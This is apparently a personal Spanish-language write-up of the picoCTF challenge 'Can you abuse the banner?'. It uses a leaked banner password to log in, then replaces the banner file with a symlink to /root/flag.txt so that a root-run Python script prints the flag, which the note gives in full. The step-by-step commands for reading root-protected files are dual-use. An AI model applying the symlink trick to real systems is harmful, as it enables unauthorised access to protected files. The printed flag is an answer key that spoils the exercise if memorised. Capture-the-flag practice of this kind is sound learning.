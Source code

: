 #Software #Hacking #Computación #GeneralSkills
Hecho por: [[Yo|Adrián Fernando Cuevas Solís]]
# Definición
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 50206`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 57011`. From the above information abuse the machine and find the flag in the /root directory.
# Hints
- Do you know about symlinks?
- Maybe some small password cracking or guessing
# Solución
Primero usamos [[NET CAT (nc)]] para conectarnos al primer puerto, pero este nos da una contraseña:

```bash
AsumomezaC-picoctf@webshell:~$ nc tethys.picoctf.net 50206
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Luego nos conectamos al segundo puerto y completamos lo que se nos pide, logrando ingresar:
```shell
AsumomezaC-picoctf@webshell:~$ nc tethys.picoctf.net 57011
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```
>Puedes ver más sobre las respuestas aquí:
>- [DEFCON](https://defcon.org/?mob=1)
>- [John Draper](https://es.wikipedia.org/wiki/John_Draper)

Usamos [[ls]] para ver que contiene este servidor:
```bash
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
```

Observamos dos archivos que nos llaman la atención, así que usamos [[CAT]] para ver que contienen:
```bash
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```

Pero esto no nos da mucha información, y nos pide que sigamos investigando. Por lo cual inspeccionamos el root, y vemos la bandera, pero no tenemos [[Permisos]] de lectura:
```bash
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 13 23:30 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```

Por lo cual vemos el otro archivo que nos llama la atención, el 'script.py':

```bash
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

Vemos como se configura la interfaz que nos permitió conectarnos al servidor, pero vemos una excepción: depende de que '/home/player/banner' exista, por lo cual lo eliminamos con [[RM]]:

```bash
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
```

Y ahora, establecemos un link, haciendo que '/home/player/banner' ya no apunte al banner, sino a la bandera (usando [[ln#3. Enlace a directorio]]):
```bash
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
```

Salimos del servidor y volvemos a entrar para que nos vuelva a pedir ingresar (y ejecute el archivo de [[Python]]), y obtenemos la bandera:
```bash
player@challenge:~$ ^C
AsumomezaC-picoctf@webshell:~$ nc tethys.picoctf.net 57011
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}

what is the password? 
```
## Respuesta
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
